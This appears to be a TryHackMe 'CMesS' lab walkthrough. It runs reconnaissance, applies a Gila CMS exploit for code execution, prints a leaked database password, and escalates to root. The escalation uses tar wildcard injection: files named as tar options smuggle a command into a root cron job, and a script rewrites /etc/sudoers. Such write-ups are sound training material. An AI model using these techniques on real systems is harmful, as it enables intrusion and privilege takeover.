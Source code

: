 > [!NOTE]
> https://tryhackme.com/room/cmess
> IP:10.10.206.203
> Please add `10.10.206.203 cmess.thm` to /etc/hosts

```bash
echo "10.10.206.203    cmess.thm" >> /etc/hosts
```

# NMAP
```bash
sudo nmap -p- -sC -sV -Pn 10.10.206.203 -T5 -v
```

```resoults
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# web
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511153124.png)


## Dirsearch
```bash
dirserach -u http://cmess.thm/
```
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154302.png)

![[20250511154326.png]]
## FFUF
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cmess.thm/ -H "Host:FUZZ.cmess.thm" -ic -c -fw 522
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154149.png)

# RCE
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154449.png)

## searchcploit
```bash
searchcploit 1.10.9
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511154613.png)

```bash
searchsploit -p 51569
```

```bash
cp /usr/share/exploitdb/exploits/php/webapps/51569.py Desktop/exploit.py
```

```bash
chmod +x exploit.py
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155117.png)

# LPE
```
andre:x:1000:1000:andre,,,:/home/andre:/bin/bash
```
### config.php
```
   'host' => 'localhost',
    'user' => 'root',
    'pass' => 'r0otus3rpassw0rd',
    'name' => 'gila',
  ),
```
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/0250511155440.png)

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155546.png)


![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155707.png)

## Flag1
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511155841.png)
## andre to root
```bash
uname -a
```

```resoults
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511160242.png)

```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

```bash
cd /home/andre/backup 
```

```bash
echo "" > "--checkpoint-action=exec=sh sudo.sh"
echo "" > "--checkpoint=1"
```

```bash
echo "echo 'andre ALL=(root) NOPASSWD: ALL ' > /etc/sudoers" > sudo.sh
```

```bash
sudo /bin/bash
```
# flag 2
![CMesS](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/CMesS/screenshots/20250511173108.png)